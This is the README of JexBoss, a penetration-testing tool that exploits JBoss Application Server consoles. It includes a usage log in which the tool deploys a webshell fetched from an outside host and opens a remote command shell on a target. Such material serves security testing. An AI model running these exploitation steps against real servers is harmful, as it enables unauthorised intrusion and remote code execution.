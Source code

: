 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Usage example
----
* Check the file "demo.png"

```
$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py https://site-teste.com

 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	       [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell 
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - * 

 * https://site-teste.com: 

 Linux fwgw 2.6.32-431.29.2.el6.x86_64 #1 SMP Tue Sep 9 21:36:05 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /tmp 
total 35436
drwxrwxrwt.  4 root root     4096 Nov 24 16:36 .
dr-xr-xr-x. 22 root root     4096 Nov 23 03:26 ..
-rw-r--r--.  1 root root 34630995 Out 15 18:07 snortrules-snapshot-2962.tar.gz
-rw-r--r--.  1 root root       32 Out 16 14:51 snortrules-snapshot-2962.tar.gz.md5
-rw-------.  1 root root        0 Set 20 16:45 yum.log
-rw-------.  1 root root     2743 Set 20 17:18 yum_save_tx-2014-09-20-17-18nQiKVo.yumtx
-rw-------.  1 root root     1014 Out  6 00:33 yum_save_tx-2014-10-06-00-33vig5iT.yumtx
-rw-------.  1 root root      543 Out  6 02:14 yum_save_tx-2014-10-06-02-143CcA5k.yumtx
-rw-------.  1 root root    18568 Out 14 03:04 yum_save_tx-2014-10-14-03-04Q9ywQt.yumtx
-rw-------.  1 root root      315 Out 15 16:00 yum_save_tx-2014-10-15-16-004hKzCF.yumtx

[Type commands or "exit" to finish]
Shell>
```

Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com
